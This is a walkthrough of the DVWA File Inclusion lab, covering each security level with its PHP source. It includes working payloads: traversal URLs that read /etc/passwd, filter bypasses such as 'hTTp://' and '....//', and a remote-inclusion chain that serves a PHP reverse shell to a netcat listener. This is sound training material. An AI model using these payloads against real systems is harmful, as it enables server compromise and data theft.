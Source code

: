 # File Inclusion

## About

> Some web applications allow the user to specify input that is used directly into file streams or allows the user to upload files to the server.<br />
> At a later time the web application accesses the user supplied input in the web applications context. By doing this, the web application is allowing the potential for malicious file execution.<br />
> If the file chosen to be included is local on the target machine, it is called "Local File Inclusion (LFI). But files may also be included on other machines, which then the attack is a "Remote File Inclusion (RFI).<br />
> When RFI is not an option. using another vulnerability with LFI (such as file upload and directory traversal) can often achieve the same effect.
> 
> Note, the term "file inclusion" is not the same as "arbitrary file access" or "file disclosure".

Source: DVWA Documentation

## Low Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi1.png?raw=true">
</p>

For this vulnerability we have 3 buttons to file1.php, file2.php and file3.php.
When we access for example the first file, we can see in the URL, the name of the file sent it as the value for the `page` parameter.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi2.png?raw=true">
</p>

This value can be changed to the name of other valid files from the server. Below we can see that we manage to access the file4.php, even if this was not displayed as an option.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi3.png?raw=true">
</p>

To move around to the server's directories we can use `../../`. Every `../` will move us to the parent directory.
Using this syntax, we can read files from different places.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi4.png?raw=true">
</p>

For example we can use: `http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../../../etc/passwd` to read all local users on the server.
This payload is using many `../`, because we want to access the `/etc/passwd` from the root path `/`. So we add many `../` to be sure that we arrived at the root path.

The source code looks like this:
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```
So we can see that the parameter is missing any validation.

The objective of this exercise is to gain access to `../hackable/flags/fi.php` and to read all five quotes.
The exact payload does not work, but going back one more directory we will successfully include the file into the page.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi5.png?raw=true">
</p>

Ok, we can read some of the quotes, but not all five. Visiting the source code of the page we can see that the fifth quote is commented.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi6.png?raw=true">
</p>

Even if we directly visit the page, not through the file inclusion vulnerability, a prevention measure was put in place for that.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi7.png?raw=true">
</p>

That means that the third one is not accessible via client-side.

## File Inclusion vs Directory Traversal
The difference between these 2 is that through the directory traversal vulnerability we will be able to read files from the system, but with file inclusion, the file is also included in the page.
This is why we were not able to read the fifth quote directly from the page, because the php code was executed, so the comment line was treated as a comment and not included as text in the page.

For example reading `/etc/passwd` will be the same for directory traversal and also for file inclusion because is just a file with text.
Instead trying to read login.php, in directory traversal we will see all the content of the file as text, and in the file inclusion the content will be included in the page, like in the example below:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi8.png?raw=true">
</p>

## Remote File Inclusion
Ok, we still didn't read the third quote, so what can we do?
There are 2 types of file inclusion, local and remote. We already saw in the previous examples the file included from the local, that means that the remote file inclusion will come from a different domain.
So instead of giving local files as parameter, we will give a new address: `http://localhost/DVWA/vulnerabilities/fi/?page=http://example.com/example.php`.
Now, on our page we will be able to see the content of the files from other domains.

RFI is more dangerous than LFI because usually leads to Remote Code Execution.
For the next example we will host a python server and use a reverse shell for the RFI vulnerability.

A php reverse shell can be downloaded from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php <br />
Edit it with the ip of your machine and the port you want to use, for this example the ip will be 127.0.0.1 and port 4444.<br />
Start a python server at the location of the reverse shell file: `python3 -m http.server 4445`<br />
Start a netcat listener: `nc -lvnp 4444`<br />
And now we can access the URL: `http://localhost/DVWA/vulnerabilities/fi/?page=http://127.0.0.1:4445/rev.php`<br />
Now we have access on the server and we can go and read the `/hackable/flags/fi.php` file.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi9.png?raw=true">
</p>

Is interesting that the fourth message is encrypted in the file, so we were able to read it the first time with the help of file inclusion vulnerability.

Note: In order to practice on RFI exercise, `allow_url_include` option should be enabled.

## Medium Security

Source code:
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?> 
```

For the medium level we can see that we have some filters implemented. These filters are not enough, because can be easily bypassed.<br />
To bypass `http://` we can use uppercase letters such as `hTTp://`.<br/>
And for `../` we can use `....//`. The match will be triggered once and the rest will apply normally. `..[../]/`.

## High Security

Source code:
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

For this exercise, the file value starts with `file*` or is equal to `include.php` (this is the initial value).<br />
When we open a local file with a browser, we have the URL in the format: `file:///home/ubuntu/document.txt`, so we can use this syntax in order to read the file that we want.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi10.png?raw=true">
</p>

The only problem is that we need to know the full path to the file, but we can fuzz the URL until we get it.
For the RFI challenge, we need to chain the vulnerability with other one, such as File Upload, in order to upload a reverse shell and then to execute it using File Inclusion `file:///var/www/html/dvwa/shell.php`.

## Impossible Security

Source code:
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
For the Impossible level, the value of the parameter must be one of the files enumerated above. In this case we are not able to bypass it.
